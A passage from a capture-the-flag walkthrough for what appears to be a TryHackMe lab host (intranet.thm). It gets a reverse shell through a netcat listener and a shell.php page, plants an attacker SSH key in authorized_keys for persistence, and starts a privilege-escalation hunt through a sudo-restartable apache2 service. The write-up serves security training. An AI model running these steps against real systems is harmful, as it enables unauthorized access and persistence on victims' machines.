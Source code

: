 ```
$ nc -nvlp 4445
```

Then access the reverse shell by visiting `http://intranet.thm/shell.php`. The page will hang and when we check our listener we should have a connection from the victim machine as the user "anders":

![1b83f2ea5c83af778653ea502b1b0834.png](/resources/38d5c9dc67f749ce81c07d569b409c3c.png)

We can get the user2 flag in `/home/anders/user.txt`

![1051600f276295c0ec7cfb94d6edf3af.png](/resources/ffd1fbb1f4dd4abc9767da70d1188d9e.png)

### \[-] root\@workshop

First let's replace `/home/anders/.ssh/authorized_keys` file with our own SSH key, so we can get a better shell. Change directory to `/home/anders/.ssh`, then run `ssh-keygen` to generate the keys, we will keep the default name "id\_rsa" enter a password if you wish:

```
$ cd /home/anders/.ssh
$ ssh-keygen
```

Rename `id_rsa.pub` to `authorized_keys`. Normally we would back up the original file, but in this case the file size is 0 bytes:

```
$ mv id_rsa.pub authorized_keys
```

Use `cat` on the private key and save it to a text file on the attacker machine:

```
$ cat id_rsa
```

On the attacker machine, use `chmod` to give the SSH key file proper permissions before connecting with `ssh` and `-i` flag will allow us to specify the SSH key file:

```
$ chmod 600 id_rsa
$ ssh -i id_rsa anders@$RHOST
```

We can check if the user "anders" can run any commands with [sudo](https://linux.die.net/man/8/sudo) using `sudo -l`:

```
$ sudo -l
```

![0b4a9014603a1efecb75161f54563c66.png](/resources/bb059a9d114b456c97715f9a952d61a9.png)

We are able to restart the `apache2` service with `sudo`. If we can get the service to run a reverse shell command, we will have a connection back to our attacker machine as `root`.

Let's try to find any writable files using `find` with the option `-type` set to `f` to search for files only and `-writable` to list only files we can write to:
